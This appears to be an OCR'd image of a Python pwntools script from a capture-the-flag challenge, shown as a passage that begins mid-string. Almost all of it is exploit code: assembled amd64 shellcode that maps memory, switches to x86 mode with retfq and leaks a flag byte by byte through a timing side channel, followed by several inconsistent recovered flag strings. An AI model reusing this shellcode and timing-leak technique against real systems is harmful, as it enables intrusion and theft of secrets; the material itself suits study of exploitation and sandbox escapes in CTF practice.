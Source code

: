 ```python
	
	mov rax,37
	
	add rsi,'''+str(i)+'''
	movzx rdi,byte ptr [rsi]
	
	syscall
	
	push 0x40404083
	
	ret
	
	nop
	'''
	shellcode_flag = asm(shellcode_flag,arch = 'amd64',os = 'linux')

	shellcode = ''
	shellcode += shellcode_mmap
	shellcode += append
	shellcode += shellcode_read
	shellcode += append
	shellcode += shellcode_retfq
	shellcode += append
	shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
	print("No."+hex(i))

	p.sendline(shellcode)
	print(flag)
	sleep(1)
	p.sendline(shellcode_x86 + shellcode_flag)
	time_start=time.time()

	while True:
		try:
			sleep(0.1)
			p.sendline('a')
		except:
			time_end=time.time()
			break
	p.interactive()
	time_end=time.time()
	ch = round(time_end-time_start)
	print(str(i)+":"+chr(ch))
	flag += chr(ch)


#flag{ddc31bff2aa2521

#flag{cdd41bff2aa2521

#flah{cdd32bf53b73531c:4b7:0bd1:79956d}

#flag{cdd32bf53b73531c94b790bd1979956d}

#flag{cdc32cg63a73632d:3c7:0ad2:78867d}

#flag{cdc31bf52a72521c93b690ad1978856d}
```
